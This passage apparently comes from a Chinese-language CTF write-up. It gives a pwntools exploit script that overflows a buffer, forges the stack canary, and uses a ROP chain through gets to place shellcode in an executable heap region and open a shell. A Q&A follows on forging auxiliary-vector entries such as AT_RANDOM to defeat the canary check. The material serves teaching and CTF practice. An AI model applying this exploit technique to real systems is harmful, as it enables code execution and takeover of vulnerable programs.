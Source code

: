 ```python

shellcode=asm(shellcraft.sh())
pop_rdi_gadget=0x4007f3 #需为壳后的地址
shellcode_mem=0x601100  #heap段可执行
gets_plt_addr=elf.plt['gets'] #elf为脱壳后的程序
payload2='a'*0x408+p64(0)+p64(0xdeadbeef)+p64(pop_rdi_gadget)+p64(shellcode_mem)+p64(gets_plt_addr)+p64(shellcode_mem) #canary、rbp
p.recvuntil("let's go:")
p.sendline(payload2)
sleep(1)
p.sendline(shellcode)
p.interactive()
```

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1629477970232-6cb33d39-f541-4175-b4cc-c0b6dd03e5a3.png)

只要记得如下5个成员和对应的值伪造即可：AT_PHDR、AT_PHENT、AT_PHNUM 、AT_ENTRY 0x9、AT_RANDOM，这里就不探究原因了，感兴趣的话可以自己分析。

### 疑难解答
Q：为什么不能在第一次输入时写入shellcode？

A：因为溢出后无法劫持程序流。

Q：为什么AT_RANDOM的指针中所存放的值可以为0x0？不是说为0x0会导致Canary为一个固定值吗？

A：仔细看脚本中伪造的为指向内容为0的非空指针，glibc源码中说的是当_dl_random为空指针时Canary为一个固定值；

Q：我可以让Canary为一个固定值吗，也就是让_dl_random为空指针？

A：很抱歉，不可以；若_dl_random为空指针，会导致段错误：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1629479909963-c7236dc4-8640-4e68-a777-a43845552ed6.png)

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1629479942120-263dffd0-e2de-4d02-bd9e-08c710079ce5.png)

